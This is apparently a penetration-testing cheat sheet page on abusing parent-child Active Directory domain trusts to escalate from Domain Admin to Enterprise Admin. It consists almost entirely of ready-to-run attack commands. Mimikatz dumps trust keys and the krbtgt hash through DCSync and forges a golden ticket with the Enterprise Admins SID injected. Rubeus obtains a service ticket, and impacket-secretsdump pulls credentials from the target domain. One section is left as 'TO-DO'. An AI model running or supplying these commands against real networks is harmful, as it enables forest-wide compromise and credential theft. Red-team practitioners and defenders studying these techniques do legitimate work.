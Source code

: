 ```yaml
---
title: "Abuse Parent Child Domain Trusts"
date: 2024-7-2
tags: ["Kerberos", "Pass-The-Ticket", "Rubeus", "Domain Trust", "Golden Ticket", "Silver Ticket", "Credential Dumping", "Trust Relationship", "Mimikatz", "Pass-The-Hash", "Ticket Granting Ticket", "Domain Controller", "Active Directory", "Windows"]
---
```


### Privesc from DA (Domain Admin) to EA (Enterprise Admin)

{{< tab set1 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Check trust relationships

```console
# Get all trusted domain objects in a forest
Get-ADTrust -Filter *
```

```console
# Returns a list of trusted domains
nltest /domain_trusts
```

```console
# Gets a collection of the trust relationships of the current forest
([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).GetAllTrustRelationships()
```

#### 2. Get current and target domain SID

```console
.\mimikatz.exe 'lsadump::trust' 'exit'
```

#### 3. Get krbtgt hash of current domain

```console
.\mimikatz.exe 'lsadump::dcsync /all /csv' 'exit'
```

#### 4. Forge a golden ticket

```console
# Append '-519' to target domain SID (Enterprise Admins Group)
.\mimikatz.exe 'kerberos::golden /user:Administrator /rc4:<HASH> /domain:<CURRENT_DOMAIN> /sid:<CURRENT_DOMAIN_SID> /sids:<TARGET_DOMAIN_SID>-519 /ticket:C:\ProgramData\ticket.kirbi' 'exit'
```

<small>*Note: Try different high value hashes if failed*</small>

#### 5. Request a service ticket of target domain

```console
.\rubeus.exe asktgs /service:cifs/<TARGET_DOMAIN> /domain:<DOMAIN> /dc:<DC> /ticket:C:\ProgramData\ticket.kirbi /outfile:C:\ProgramData\ticket_2.kirbi /nowrap /ptt
```

{{< /tabcontent >}}

#### 6. Secrets Dump

{{< tab set2 tab1 active >}}Linux{{< /tab >}}
{{< tab set2 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set2 tab1 >}}

#### 1. Convert kirbi to ccache

```console
python3 rubeustoccache.py <BASE64_TICKET> administrator.kirbi administrator.ccache
```

#### 2. Secrets Dump

```console
export KRB5CCNAME=administrator.ccache
```

```console
impacket-secretsdump administrator@<TARGET_DOMAIN> -k -no-pass
```

<small>*Ref: [RubeusToCcache](https://github.com/SolomonSklash/RubeusToCcache)*</small>

{{< /tabcontent >}}
{{< tabcontent set2 tab2 >}}

#### 1. TO-DO

```console
TO-DO
```

{{< /tabcontent >}}
